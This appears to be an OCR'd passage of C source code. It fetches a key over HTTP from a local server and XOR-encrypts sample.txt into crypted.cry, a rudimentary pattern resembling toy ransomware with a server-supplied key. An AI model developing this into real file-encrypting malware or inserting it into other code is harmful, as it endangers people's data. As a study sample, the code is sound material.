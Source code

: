 ```
        }
        i = i+1;
    }
}
// Lame sample routine for byte array xor
void cryp(char key[], char buf[]){

    for(int i = 0; i < KSIZE; i ++){
        buf[i] ^= key[i];
    }

}
// open a file xor the content and dump it to another file
void crypFile(char file[], char key[]){

    int infile, outfile; 
    char buff[KSIZE];
    infile = open (file, O_RDONLY , 0644); 
    outfile = open ("crypted.cry", O_WRONLY | O_CREAT, 0644);
    while(read(infile, &buff, KSIZE)){ 
        cryp(key, buff);

        write(outfile, &buff, KSIZE);
    }
    close (infile); 
    close (outfile);

}

int main(int argc, char *argv[]) {
   int sockfd, portno, n;
   struct sockaddr_in serv_addr;
   struct hostent *server;
   char key[KSIZE];
   char request[] = "GET /sh HTTP/1.1\r\nUser-Agent: nc/0.0.1\r\nHost: 127.0.0.1\r\nAccept: */*\r\n\r\n";
   char buffer[BSIZE];

   portno = 80;
   sockfd = socket(AF_INET, SOCK_STREAM, 0);
   server = gethostbyname("127.0.0.1");

   
   bzero((char *) &serv_addr, sizeof(serv_addr));
   serv_addr.sin_family = AF_INET;
   bcopy((char *)server->h_addr, (char *)&serv_addr.sin_addr.s_addr, server->h_length);
   serv_addr.sin_port = htons(portno);

   if (connect(sockfd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)) < 0) {
      exit(1);
   }

   bzero(buffer,BSIZE);

   n = write(sockfd, request, strlen(request));

   bzero(buffer,BSIZE);
   n = read(sockfd, buffer, BSIZE);
   getKey(buffer, key);

   crypFile("sample.txt",key);
   return 0;
}
```